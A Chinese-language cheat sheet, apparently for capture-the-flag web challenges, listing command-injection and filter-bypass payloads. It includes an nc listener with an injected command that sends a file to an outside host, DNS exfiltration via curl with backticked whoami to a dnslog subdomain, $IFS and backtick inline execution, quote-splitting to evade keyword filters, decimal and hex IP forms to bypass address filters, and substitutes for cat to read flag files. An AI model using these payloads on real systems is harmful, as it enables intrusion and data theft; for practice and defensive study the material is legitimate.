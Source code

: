 `cat flag.* *`进行模糊匹配php

### nc外带数据

本地监听端口

`nc -lvp 9999`

命令执行出 `ping 127.0.0.0 & nc ip port > key.php`

### 内联执行的做法：

payload：cat$IFS$1`ls`

使用内联执行会将 ```内的输出作为前面命令的输入，当我们输入上述payload时，等同于`cat falg.php;cat index.php`

### 利用DNS管道解析：

这里提供一个在线网址，可以直接进行给一个利用网址：admin.dnslog.link注册一个账号后会分配一个子域名可以利用。

```bash
|curl `whoami`.[http://xxxx.xxx](http://xxxx.xxx/)(子域名)
```

这样就会在利用网址看到反弹结果。\`whoami\`因为`反引号在linux下是执行命令的特殊符号，原理请见：http://mp.weixin.qq.com/s/jwqWnP0FHhMoR5b6iCS6NQ

### 网络地址转化为数字地址

网络地址有另外一种表示形式，就是数字地址比如127.0.0.1可以转化为2130706433

可以直接访问

**[http://2130706433](http://127.0.0.1/)**

或者 **[http://0x7F000001](http://127.0.0.1/)**

这样就可以绕过.的ip过滤，这里给个转化网址：

```http
http://www.msxindl.com/tools/ip/ip_num.asp
```

### 通过查看文件的权限 chmod +777赋予权限

```bash
l's' -la
c'h'm'o'd +777 /filename
```

### 代替cat的命令

```ini
cat:由第一行开始显示内容，并将所有内容输出

tac:从最后一行倒序显示内容，并将所有内容输出

more:根据窗口大小，一页一页的现实文件内容

less:和more类似，但其优点可以往前翻页，而且进行可以搜索字符

head:只显示头几行

tail:只显示最后几行

nl:类似于cat -n，显示时输出行号

tailf:类似于tail -f

sort:读文件

```